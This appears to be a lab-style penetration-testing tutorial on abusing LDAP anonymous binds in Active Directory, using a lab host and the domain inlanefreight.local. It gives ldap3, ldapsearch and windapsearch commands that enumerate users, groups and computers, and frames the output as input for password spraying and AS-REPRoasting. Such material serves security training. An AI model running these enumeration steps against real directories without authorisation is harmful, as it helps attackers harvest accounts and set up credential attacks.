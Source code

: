 # LDAP Anonymous Bind

## Leveraging LDAP Anonymous Bind

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a full listing of users, groups, computers, user account attributes, and the domain password policy. Linux hosts running open-source versions of LDAP and Linux vCenter appliances are often configured to allow anonymous binds.

When an LDAP server allows anonymous base binds, an attacker does not need to know a base object to query a considerable amount of information from the domain. This can also be leveraged to mount a password spraying attack or read information such as passwords stored in account description fields. Tools such as **`windapsearch`** and **`ldapsearch`** can be utilized to enumerate domain information via an anonymous LDAP bind. Information that we obtain from an anonymous LDAP bind can be leveraged to mount a password spraying or AS-REPRoasting attack, read information such as passwords stored in account description fields.

Reference: https://github.com/ropnop/windapsearch

Reference: https://linux.die.net/man/1/ldapsearch

We can use Python to quickly check if we can interact with LDAP without credentials.

```python
Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from ldap3 import *
>>> s = Server('10.129.1.207',get_info = ALL)
>>> c =  Connection(s, '', '')
>>> c.bind()
True
>>> s.info
```

## Using `Ldapsearch`

We can confirm anonymous LDAP bind with ldapsearch and retrieve all AD objects from LDAP.

```
ldapsearch -H ldap://10.129.1.207 -x -b "dc=inlanefreight,dc=local"
```

## Using `Windapsearch`

`Windapsearch` is a Python script used to perform anonymous and authenticated LDAP enumeration of AD users, groups, and computers using LDAP queries. It is an alternative to tools such as `ldapsearch`, which require you to craft custom LDAP queries. We can use it to confirm LDAP NULL session authentication but providing a blank username with `-u ""` and add `--functionality` to confirm the domain functional level.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" --functionality
```

We can pull a listing of all domain users to use in a password spraying attack.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -U
```

We can obtain information about all domain computers.

```
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -C
```

This process can be repeated to pull group information and more detailed information such as unconstrained users and computers, GPO information, user and computer attributes, and more.

## Other Tools

There are many other tools and helper scripts for retrieving information from LDAP. This script **`ldapsearch-ad.py`** is similar to `windapsearch`.

We can use it to pull domain information and confirm a `NULL` bind. This particular tool requires valid domain user credentials to perform additional enumeration.

```
python3 ldapsearch-ad.py -l 10.129.1.207 -t info
```
















